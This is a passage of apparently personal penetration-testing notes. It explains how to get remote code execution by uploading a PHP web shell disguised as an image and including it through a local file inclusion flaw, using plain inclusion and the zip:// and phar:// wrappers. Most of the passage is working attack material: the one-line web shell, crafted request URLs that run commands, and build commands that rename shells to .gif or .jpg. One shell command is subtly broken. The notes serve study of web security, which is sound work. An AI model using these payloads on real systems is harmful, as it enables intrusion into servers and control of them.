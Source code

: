 Once, we upload the file, we need to include it through the LFI vuln, and to do that we need to know the path to the uploaded file.

```html
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```

Now include the file in the LFI vulnerable function, and the PHP code will be executed:

```http
http://server:port/index.php?language=./profile_images/shell.gif&cmd=id
```

### Zip Upload

There are a number of PHP-only techniques that utilize PHP wrappers to achieve the same goal, and these can become handy where the above technique doesn't work.

We can use the `zip` wrapper to execute PHP code.

This wrapper isn't enabled by default.

To do this, we can create a PHP web shell and zip it into a zip (named `shell.jpg`) archive:

```sh
'<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

Now, when we upload it, we use hte `zip` wrapper:

`zip://shell.jpg`

```http
http://server:port/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

### Phar Upload

Similar result can be done using the `phar://` wrapper.

First wrote the php script in a `shell.php`:

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```

This script can be compiled into a `phar` file and when it is called it would write a web shell to a `shell.txt` sub-file, which we will use to interact with.

Compile it into a `phar` and rename to `shell.jpg`:

```sh
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```
